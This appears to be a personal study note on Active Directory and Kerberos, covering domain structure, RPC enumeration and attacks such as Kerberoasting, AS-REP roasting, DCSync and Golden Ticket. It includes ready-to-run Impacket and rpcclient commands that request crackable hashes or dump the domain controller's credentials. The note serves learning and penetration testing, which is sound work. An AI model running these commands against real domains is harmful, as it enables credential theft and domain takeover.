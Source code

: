 **Active Directory (AD)** is Microsoft’s directory service for managing **users, computers, groups, and resources** in a **Windows domain environment**.

**DC** : Domain Controller

- **Forest** → the highest level (can contain multiple domains).
- **Tree** → sub domains
- **Domain** → a logical grouping of objects (users, computers, groups).
- **Organizational Unit (OU)** → container for grouping objects for easier management.
- **Objects** → actual resources (users, computers, printers, etc.).




---

RPC : 
**RPC (Remote Procedure Call)** is a communication protocol that lets a program **run a function (procedure) on another computer** as if it were local.

rpcclient ``ip`` -U username ===========> enumdomusers , enumdomgroups

---

**Distinguish Name :** A method to descrip an object , by going back until the DC .
example : CN=yahia, OU=users , OU=technical_depatrment, DC=nexus , DC=local

---

#### Kerberos authentication : 
what is kerberos : is an authentication protocol , port 88 TCP/UDP

**KDC :** Key Distribution Center
**AS :** Authentication Service
**TGS :** Ticket Granting Service

the DC contain the KDC , they have all the users with their hashed password , and all the services with their hashed password also .


session key
service session key 

KRBTGT

![[Pasted image 20250830142013.png]]

---


### Attacks : 

##### - Kerberosting : 
crack the TGS ticket , i mean crack the hash of the password of the service

python3 GetUserSPNs.py domain_name/user_name:password -dc-ip domain_ip
python3 GetUserSPNs.py domain_name/user_name:password -dc-ip domain_ip -request

u will get a hash , crack it 


##### - AS-REP Roasting : 

when the pre-authentication is disabled , the attacker will request a TGT of another user , and try to crack the hash of the user 

python3 GetNPUsers.py domain_name/victim_username -dc-ip domain_ip


##### - Full Control Using Bloodhound : 

install it and learn how to use it 

##### - DC Sync Attack : 
try to get the database of the DC .
python3 secretsdump.py domain_name/user_name:password@ip -use-vss

##### - Golden Ticket Attack : 

the attacker try to get the password of the KRBTGT , by crack the hash of that password 
##### Tools : 
cd /opt/impacket/examples

python3 GetUserSPNs.py domain_name/user_name:password -dc-ip domain_ip
python3 GetUserSPNs.py domain_name/user_name:password -dc-ip domain_ip -request
